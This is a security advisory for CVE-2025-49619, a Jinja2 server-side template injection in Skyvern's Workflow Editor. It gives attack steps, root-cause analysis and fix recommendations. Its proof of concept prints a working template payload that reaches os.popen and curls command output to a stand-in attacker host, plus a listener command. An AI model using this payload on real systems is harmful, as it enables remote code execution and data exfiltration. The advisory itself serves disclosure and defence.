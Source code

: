 ## CVE ASSIGNED: CVE-2025-49619
## CVE PUBLISHED STATE:  PUBLISHED
## CVE LINK: https://www.cve.org/CVERecord?id=CVE-2025-49619

## Description:
The Workflow Editor in Skyvern version 0.1.85 (up to commit db856cd) contains a Server-Side Template Injection (SSTI) vulnerability in the Navigation v2 Block's Prompt field. The application uses Jinja2 templating engine to render user-supplied template variables without proper sanitization or sandboxing. This allows authenticated attackers to inject malicious Jinja2 payloads that execute arbitrary system commands on the server, leading to complete system compromise through blind Remote Code Execution (RCE).

## Impact:
- Remote Code Execution (RCE) via Server-Side Template Injection
- Unauthorized access to sensitive data and file systems  
- Potential lateral movement in multi-tenant environments

## Attack Scenario:
1. Attacker gains access to Skyvern Workflow Editor (authenticated user)
2. Creates or modifies a workflow containing Navigation v2 Block
3. Injects malicious Jinja2 SSTI payload in the Prompt field
4. Executes the workflow to trigger template rendering
5. Achieves blind RCE through Jinja2 template execution


## Technical Details:
- **Vulnerability Type:** Server-Side Template Injection (SSTI)
- **CWE Classification:** CWE-94 (Improper Control of Generation of Code - Code Injection)
- **Attack Type:** Remote (Authenticated)  
- **Affected Version:** 0.1.85 (up to commit db856cd)
- **Affected Component:** Workflow Editor - Navigation v2 Block Prompt field
- **Impact:** Remote Code Execution
- **Template Engine:** Jinja2
- **Execution Context:** Blind RCE

## Affected Products:
- Skyvern Local: https://github.com/Skyvern-AI/skyvern
- Skyvern Cloud: https://app.skyvern.com/
- All installations running version 0.1.85 and prior (up to commit db856cd)
- Both local and cloud-hosted deployments

## Vendor Information:
Skyvern-AI  
https://github.com/Skyvern-AI/skyvern

## Proof of Concept:

### Exploitation Steps:
1. Access Skyvern Workflow Editor interface
2. Create new workflow or edit existing workflow
3. Add Navigation v2 Block to workflow
4. Insert SSTI payload in Prompt field
5. Execute workflow to trigger RCE

### SSTI Payload Example:
```jinja2
{% for x in ().__class__.__base__.__subclasses__() %}   
	{% if 'warning' in x.__name__ %}     
		{{ x()._module.__builtins__['__import__']('os').popen("curl http://attacker-ip:11111/$(id)").read() }}   
	{% endif %} 
{% endfor %}
```

### Attack Command Sequence:
```bash
# Start HTTP listener on attacker machine
python3 -m http.server 11111

# Payload executes on server during workflow execution
# Server makes HTTP request to attacker with command output
GET /uid=1000(skyvern)%20gid=1000(skyvern)%20groups=1000(skyvern) HTTP/1.1
```


## Root Cause Analysis:
The vulnerability stems from insufficient input validation and lack of sandboxing in Jinja2 template rendering. The application processes user-controlled template variables in Navigation v2 Block prompts without:
- Input sanitization or escaping
- Template sandboxing restrictions  
- Execution context limitations
- Dangerous function filtering

## References:
- CWE-94: https://cwe.mitre.org/data/definitions/94.html
- OWASP Code Injection: https://owasp.org/www-community/attacks/Code_Injection
- Jinja2 Template Security: https://jinja.palletsprojects.com/en/3.1.x/sandbox/
- Server-Side Template Injection: https://portswigger.net/web-security/server-side-template-injection

## Severity: Critical

## Fix Recommendations:
- **Immediate Actions:**
  - Implement Jinja2 SandboxedEnvironment for template rendering
  - Add comprehensive input validation and sanitization for all template variables
  - Whitelist allowed template functions and disable dangerous builtins
  - Implement template execution timeouts and resource limits

## Discoverer:
Cristian Branet
